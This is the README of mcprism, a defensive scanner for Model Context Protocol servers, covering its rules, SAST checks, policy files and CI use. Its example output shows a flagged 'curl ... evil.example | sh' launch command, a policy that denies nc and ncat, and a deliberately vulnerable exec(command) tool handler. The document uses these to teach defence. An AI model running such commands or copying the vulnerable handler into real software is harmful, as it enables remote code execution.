

<div align="center">

<p>English · <a href="README.zh-CN.md">简体中文</a> · <a href="docs/i18n/README.ja-JP.md">日本語</a> · <a href="docs/i18n/README.ko-KR.md">한국어</a> · <a href="docs/i18n/README.fr-FR.md">Français</a> · <a href="docs/i18n/README.de-DE.md">Deutsch</a> · <a href="docs/i18n/README.es-ES.md">Español</a> · <a href="docs/i18n/README.ru-RU.md">Русский</a> · <a href="docs/i18n/README.ar-SA.md">العربية</a></p>


# mcprism

**Vet MCP servers before your AI trusts them.**

mcprism is a security scanner for [Model Context Protocol](https://modelcontextprotocol.io/)
servers. It looks at a server from three angles:

1. **Configuration** — how a client launches or reaches it: pinned packages,
   cleartext transport, credentials in config, cloud metadata and private
   network targets.
2. **Source code** — when the implementation is on disk, it reads the
   JS/TS/Python tool handlers and traces arguments an agent can control into
   dangerous sinks: process execution, outbound requests (SSRF) and filesystem
   paths, along with eval, unsafe deserialization and hardcoded secrets.
3. **Runtime** — it performs the MCP handshake to list tools, resources and
   prompts and checks tool metadata for poisoning. It never calls a tool.

Every server gets a list of findings, a 0–100 score and an A–F grade. mcprism
ships as one Go binary with no runtime dependencies, runs fully offline, and
has no side effects.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP connects your AI agent to outside servers for tools, files and data. The
protocol is built into Claude Desktop and Claude Code, Cursor, VS Code,
Windsurf and others, so a typical setup reaches several servers before long.
Those servers run commands, read the filesystem and see your prompts. A
malicious or over-privileged server can steal credentials, run commands, or
steer the agent through the text it returns. mcprism gives you a per-server
report and a score before you let an agent use them, the way you would run
`trivy` against an image.

<p align="center">
  
</p>

## Quick start in two lines

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## Vet one server in one line

Check a launch command, URL, package or a checkout on disk without adding it
to any config:

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # review a source tree
mcprism vet server.py            # review one file
```

`vet` and `scan` are static by default and do not run the target. Add
`--probe` (vet) or `--dynamic` (scan) to launch it and enumerate its tools,
resources and prompts. A source tree or file goes through the SAST engine
below, with no network needed.

<p align="center">
  
</p>

## Contents

- [Changelog](CHANGELOG.md)
- [Attack surface writeup](docs/MCP-ATTACK-SURFACE.md)
- [Launch kit](docs/LAUNCH-KIT.md)
- [What it does](#what-it-does)
- [When to use it](#when-to-use-it)
- [Report](#report)
- [Install](#install)
- [Quick start](#quick-start)
- [Example output](#example-output)
- [Policy as code](#policy-as-code)
- [Source-code review (SAST)](#source-code-review-sast)
- [What it detects](#what-it-detects)
- [Output formats](#output-formats)
- [Supported clients & transports](#supported-clients--transports)
- [CI/CD](#cicd)
- [How it works](#how-it-works)
- [Comparison](#comparison)
- [FAQ](#faq)
- [Roadmap](#roadmap)
- [Contributing](#contributing)

## What it does

- One binary. No Python or Node setup, no LLM API key, no account.
- Static by default. It reads the config and reviews JS/TS/Python/Go source.
  Pass `--dynamic` to perform the MCP handshake and list tools, resources and
  prompts. It never calls a tool.
- Schema-aware. For a live server you have no source for, a string parameter
  named like command, url or path that accepts any value is flagged as command,
  SSRF or path risk. Parameters constrained with enum, const or pattern are
  left alone.
- Policy as code. Turn rules on/off, change severity, allow or deny packages,
  commands and domains, and require network isolation. Built-in profiles give
  you `default`, `strict` and `ci` baselines.
- Accepted-risk register. Suppress findings with a reason and an expiry, or
  accept a whole `--baseline` report so only new problems fail the build.
  Suppressed items stay visible in the report, and expired ones come back.
- Deterministic. 34 rules mapped to OWASP MCP01–MCP07. Static analysis never
  touches the network; live probing is opt-in and starts the server, so run it
  in a sandbox.
- Reports for people and machines: table, JSON, Markdown, HTML, SARIF, JUnit
  XML, CycloneDX SBOM and CSV.
- Scan several targets at once: files, directories (recursively), or URLs.

## When to use it

- You installed MCP servers and want to know what they can reach before an
  agent runs them. Run `mcprism scan`.
- A team shares a set of servers and wants one documented baseline. Keep a
  `policy.yml` in version control, and run `--profile strict` on production
  machines.
- You review changes in CI. Run `mcprism scan --profile ci` to fail the build
  on high and above, or publish SARIF to code scanning.

## Report

<p align="center">
  
</p>

Batch review across many servers (static mode):

<p align="center">
  
</p>

## Install

```sh
# One-line installer (Linux / macOS / Windows via Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

Or download a binary from the [releases](https://github.com/HUA503/mcprism/releases)
page (Linux/macOS/Windows, amd64 and arm64). Homebrew, Scoop and Nix are on the roadmap.

## Quick start

```sh
# Auto-discover configs for Claude Desktop, Claude Code, Cursor, VS Code, ...
mcprism scan

# A specific config file
mcprism scan ~/.claude.json

# A directory, searched recursively
mcprism scan ./configs

# A remote server
mcprism scan https://mcp.example.com/v1

# Several targets together
mcprism scan a.json b.json ./configs

# Static by default: no process is spawned, no connection is made
mcprism scan mcp.json

# Probe live servers (starts the process; run in a sandbox)
mcprism scan mcp.json --dynamic

# Enforce a profile or a custom policy
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# Accept existing findings and fail only on new ones (incremental rollout)
mcprism scan mcp.json -f json -o baseline.json
mcprism scan mcp.json --baseline baseline.json

# Interactive terminal UI
mcprism scan -i

# Vet a launch command / URL / package without writing a config
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # actually run it and list tools

# Reference
mcprism inspect mcp.json     # list a server's tools/resources/prompts
mcprism rules                # list built-in rules
mcprism profiles             # list built-in profiles
```

### Flags

| Flag | Description |
|---|---|
| `-f, --format` | `table` (default) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | Write the report to a file |
| `-p, --policy` | Path to a policy YAML file |
| `--profile` | Built-in profile: `default` · `strict` · `ci` |
| `--suppressions` | Path to a suppressions YAML file |
| `--fail-on` | Exit non-zero on `critical` / `high` / `medium` / `low` |
| `--timeout` | Per-server handshake timeout (default `10s`) |
| `-i, --interactive` | Browse findings in a TUI |
| `--transport` | Force `http` (Streamable HTTP) or `sse` (legacy) for URLs |
| `--dynamic` (`scan`) | Probe live servers: launch/connect and enumerate tools, resources and prompts. Starts the target process, which may run code or reach the network; run it in a sandbox |
| `--probe` (`vet`) | Launch/connect and enumerate tools; runs the target, prefer a sandbox |

## Example output

Scanning two local servers in static mode:

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

The HTML and SARIF forms add evidence, advice and the OWASP mapping.

## Policy as code

A policy file is a versioned YAML document. It sets the pass/fail conditions,
overrides individual rules, lists allowed and denied packages/commands/domains,
and can require that servers with file or shell access have no network egress.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

A deny match is reported as `MCP700`; a file/shell server with network access
under isolation is reported as `MCP701`. See [`examples/policy.yml`](examples/policy.yml),
[`examples/suppressions.yml`](examples/suppressions.yml) and the
[policy guide](docs/POLICIES.md). For compliance gates and machine output, see
[docs/COMPLIANCE.md](docs/COMPLIANCE.md).

## Source-code review (SAST)

Configuration says how a server is launched, not what a handler does with an
argument. A server that looks fine in config can still pass a tool parameter
straight to a shell, use it as a request URL, or open a path built from it.
Those bugs are in the implementation, so mcprism reads the code.

Point `vet` at a checkout or a single file. It needs no build step, no
dependencies installed and no network:

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

It recognizes the common SDKs and frameworks:

- JavaScript/TypeScript: the `@modelcontextprotocol/sdk` `McpServer`, the
  low-level `Server.setRequestHandler`, and `.tool(...)` registrations.
- Python: the `FastMCP` `@mcp.tool()` decorator and the low-level `call_tool`
  handler.
- Go: mcp-go `server.AddTool` / `mcp.AddTool` callbacks.

For each tool it treats the handler arguments as attacker-controlled data and
follows them one hop into a sink. Findings name the file and line, show the
code, and say how to fix it:

| Rule | Sink | Default |
|---|---|---|
| MCP801 | Tool input reaches a process/command sink (`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | Tool input controls a request URL (`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | Tool input used as a filesystem path without confinement | high |
| MCP804 | Dynamic code execution (`eval`, `Function`, `exec`) | high |
| MCP805 | Unsafe deserialization (`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | Hardcoded credential in the source | high |

It recognizes the usual safe patterns and stays quiet when they are present, to
keep false positives down:

- A fixed command with arguments passed as an array (`execFile(cmd, args)`,
  `subprocess.run([...])`) instead of a shell string.
- Path confinement: `path.resolve(base, name)` checked with `startsWith(base)`,
  or `realpath` + `startswith` in Python.
- A constant base URL instead of an agent-chosen host, plus `yaml.safe_load` /
  `SafeLoader`.
- In Go, `exec.Command` with constant args and no shell, a constant URL, and
  `filepath.Join` checked with `strings.HasPrefix`.

This handler is flagged MCP801 because the agent controls the command:

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

The fixed version uses an allow-list and never runs a shell:

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

The engine is pattern-based with one level of taint tracking and no third-party
parser, so the binary stays small and self-contained. It won't catch everything
a full data-flow analyzer would; it targets the short, direct handler-to-sink
paths behind most MCP server bugs. Rule details and more examples are in
[docs/SAST.md](docs/SAST.md).

<p align="center">
  
</p>

## What it detects

- Secrets in config. Recognized credential formats (AWS, Google, GitHub, Slack,
  Stripe, GitLab, OpenAI, JWT and more) are flagged by type, and high-entropy
  values that look like generated keys are flagged as suspected secrets.
  Placeholders and `${ENV_VAR}` references are not flagged.
- Cleartext transport and disabled TLS (`http://`,
  `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- Over-broad permissions. Filesystem servers mounted at `/` or the home
  directory; sandbox or permission checks turned off.
- Tool poisoning. Injection directives, zero-width/bidirectional Unicode,
  hidden HTML/Markdown and encoded blobs in tool names, descriptions and schemas.
  The same checks cover resource and prompt-template metadata.
- Free-form schema parameters. A live server with no source available is
  checked by parameter name for command, URL (SSRF) and path risk when the
  parameter accepts any string.
- Dangerous capability combinations, such as shell plus network, file read
  plus network, or file write plus shell.
- Network targets. Cloud metadata endpoints (`169.254.169.254`) and
  private/loopback ranges.
- Supply-chain risk: unpinned packages, typosquat look-alikes, and code run
  straight from a remote URL.
- Policy violations: denied packages/commands/domains and broken network isolation.
- Source-code flaws in JS/TS/Python/Go handlers: tool arguments reaching command,
  network and file sinks, eval/exec, unsafe deserialization and hardcoded
  secrets. See [Source-code review](#source-code-review-sast).
- Cross-server tool name collisions, and classified connectivity failures
  (DNS / TLS / refused / timeout / command not found).

The full list with the OWASP crosswalk is in [docs/RULES.md](docs/RULES.md).

## Output formats

| Format | Typical use |
|---|---|
| `table` | Terminal output |
| `json` | Custom tooling |
| `sarif` | GitHub code scanning |
| `md` | Markdown reports / tickets |
| `html` | Shareable standalone report |
| `junit` | Jenkins, GitLab and GitHub test reports |
| `cyclonedx` | SBOM / vulnerability ingestion |
| `csv` | Spreadsheets and GRC workflows |

## Supported clients & transports

mcprism reads the JSON/JSONC MCP config used by Claude Desktop, Claude Code,
Cursor, VS Code (GitHub Copilot Chat), Windsurf, Cline, Continue and similar
tools, in both the `mcpServers` object and array forms. It speaks all three MCP
transports: stdio, Streamable HTTP, and the legacy HTTP+SSE.

## CI/CD

Run mcprism as a [pre-commit](https://pre-commit.com) hook so changed MCP
configs are checked before they are committed:

```yaml
- repo: https://github.com/HUA503/mcprism
  rev: v0.6.1
  hooks:
    - id: mcprism
```

The hook matches JSON files named like an MCP config (mcp.json, .mcp.json,
claude_desktop_config.json, claude.json). Override `files` in your config for
other names.

Block risky servers in a pipeline with the `ci` profile:

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --profile ci
```

Publish to GitHub code scanning via SARIF:

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

JUnit output works with the test report steps in Jenkins and GitLab, and
CycloneDX output can be handed to an SBOM or vulnerability tracker.

## How it works



mcprism only enumerates capabilities, so analysis has no side effects. The
bundled demo server (`examples/testserver`) simulates risky behavior without
performing any of it. The package layout and data flow are described in
[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Comparison

Based on public project descriptions (features may change):

| | **mcprism** | mcp-scan | mcp-audit | manual review |
|---|---|---|---|---|
| Language / runtime | Go, single binary | Python | Python/Node | — |
| Zero install / runtime deps | ✅ | ❌ | ❌ | — |
| Static config review | ✅ | ✅ | partial | ❌ |
| Live capability enumeration | ✅ | partial | partial | ❌ |
| Source-code SAST (handler-to-sink taint) | ✅ | ❌ | ❌ | ❌ |
| Tool-poisoning detection | ✅ | ✅ | partial | ❌ |
| Capability-combination modeling | ✅ | ❌ | ❌ | ❌ |
| Policy as code (allow/deny/isolation) | ✅ | ❌ | ❌ | ❌ |
| JUnit / CycloneDX / CSV output | ✅ | ❌ | ❌ | ❌ |
| Recursive, multi-target scan | ✅ | partial | ❌ | ❌ |
| SARIF + CI exit codes | ✅ | ✅ | ❌ | ❌ |
| Fully offline, no LLM | ✅ | ✅ | partial | ✅ |
| Cross-platform | ✅ | partial | partial | — |

## FAQ

**Does mcprism call my tools?**
No. It performs the MCP initialization and listing calls only. Tools are not
invoked, files are not opened through a server, and prompts are not sent.

**Does it send data anywhere?**
No. The rules run locally and there is no telemetry. Static analysis never
connects anywhere. A live scan (`--dynamic` for scan, `--probe` for vet)
connects to the server you point it at and starts its process, which may run
code or reach the network, so run live probes in a sandbox.

**How is this different from mcp-scan or mcp-audit?**
Those run on Python or Node and focus on config or poisoning. mcprism is a Go
single binary, models capability combinations, enforces policy as code, and
emits JUnit, CycloneDX and CSV in addition to SARIF. See the
[comparison table](#comparison).

**A finding is a false positive for my setup. What do I do?**
Fix the underlying issue if you can, or suppress it with a reason and an
expiry. Suppressed items stay visible and expire on their own. See
[docs/POLICIES.md](docs/POLICIES.md).

**Does a clean report mean the server is safe?**
No. mcprism reports known, observable risk. It cannot prove a server is safe,
so only run servers you trust.

## Roadmap

- [ ] More rules and fewer false positives as the MCP spec evolves
- [ ] MCP registry / marketplace scanning
- [ ] User-defined rules beyond policy overrides
- [x] Pre-commit hook
- [ ] Editor integrations (VS Code, JetBrains)
- [ ] Homebrew, Scoop and Nix packages
- [ ] More SAST languages (Rust, Java, C#)
- [ ] Opt-in multi-hop / inter-procedural taint tracking
- [ ] Built-in sandbox wrapper for live probes

## Contributing

Issues and PRs are welcome. A good rule contribution is a high-signal,
deterministic check with a low false-positive rate: add it under
`internal/rules`, map it to an OWASP MCP risk, and include a test. The code
layout is in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). Run
`go vet ./... && go test ./...` before opening a PR.

## License

[MIT](LICENSE) © mcprism contributors.

mcprism is a defensive tool. It reports risk; it does not prove a server is
safe, and a clean report is not a reason to trust a server you do not understand.
